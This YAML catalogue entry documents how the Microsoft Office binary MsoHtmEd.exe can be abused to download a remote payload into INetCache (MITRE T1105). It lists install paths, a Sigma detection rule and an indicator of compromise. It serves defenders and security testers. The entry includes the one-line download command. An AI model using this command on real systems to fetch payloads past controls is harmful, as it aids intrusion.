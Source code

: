 ```yaml
---
Name: MsoHtmEd.exe
Description: Microsoft Office component
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: MsoHtmEd.exe {REMOTEURL}
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSOHTMED.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
  - Path: C:\Program Files\Microsoft Office\Office12\MSOHTMED.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_msohtmed_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

